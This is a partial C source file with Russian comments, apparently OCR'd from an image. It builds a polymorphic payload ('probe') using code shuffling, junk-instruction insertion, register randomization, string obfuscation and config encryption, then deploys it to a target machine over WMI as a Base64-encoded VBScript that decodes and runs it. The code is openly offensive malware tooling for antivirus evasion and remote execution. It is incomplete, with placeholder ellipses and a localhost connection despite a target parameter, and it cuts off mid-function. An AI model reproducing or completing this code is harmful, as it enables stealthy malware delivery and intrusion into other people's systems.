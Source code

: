     // Выделяем память для полиморфного зонда
    BYTE* pProbe = (BYTE*)malloc(*pSize);
    if (!pProbe) return NULL;
    
    // Копируем базовый шаблон
    memcpy(pProbe, probeTemplate, sizeof(probeTemplate));
    
    // Производим полиморфные модификации
    // 1. Изменяем порядок операций
    ShuffleCodeBlocks(pProbe, sizeof(probeTemplate));
    
    // 2. Вставляем мусорный код
    InsertJunkInstructions(pProbe, pSize);
    
    // 3. Переименовываем регистры
    RandomizeRegisters(pProbe, sizeof(probeTemplate));
    
    // 4. Обфусцируем строки
    ObfuscateStrings(pProbe, sizeof(probeTemplate));
    
    // 5. Шифруем секцию конфигурации
    EncryptConfigSection(pProbe + sizeof(probeTemplate), pConfig, 
                        sizeof(PROBE_CONFIG), pConfig->EncryptionKey);
    
    return pProbe;
}

// Запуск зонда на целевой системе через WMI
BOOL DeployProbeViaWMI(LPCWSTR lpTargetMachine, BYTE* pProbe, SIZE_T probeSize) {
    // Инициализация COM
    CoInitializeEx(0, COINIT_MULTITHREADED);
    
    // Устанавливаем безопасность COM
    CoInitializeSecurity(...);
    
    // Подключаемся к WMI на удаленной машине
    IWbemLocator* pLoc = NULL;
    CoCreateInstance(CLSID_WbemLocator, 0, CLSCTX_INPROC_SERVER, 
                    IID_IWbemLocator, (LPVOID*)&pLoc);
    
    // Подключаемся к пространству имен WMI
    IWbemServices* pSvc = NULL;
    BSTR strNetworkResource = SysAllocString(
        L"\\\\localhost\\root\\cimv2");
    pLoc->ConnectServer(strNetworkResource, NULL, NULL, NULL, 
                        WBEM_FLAG_CONNECT_USE_MAX_WAIT, NULL, NULL, &pSvc);
    
    // Создаем процесс с VBScript, который внедрит наш зонд
    // Зонд закодирован в Base64 для передачи через WMI
    CHAR base64Probe[8192] = {0};
    Base64Encode(pProbe, probeSize, base64Probe, sizeof(base64Probe));
    
    // Формируем VBScript, который декодирует и запускает зонд
    WCHAR vbScript[16384] = {0};
    swprintf_s(vbScript, L"Set objShell = CreateObject(\"WScript.Shell\")\n"
              L"Dim base64Str : base64Str = \"%hs\"\n"
              L"[...декодирование и запуск...]", base64Probe);
    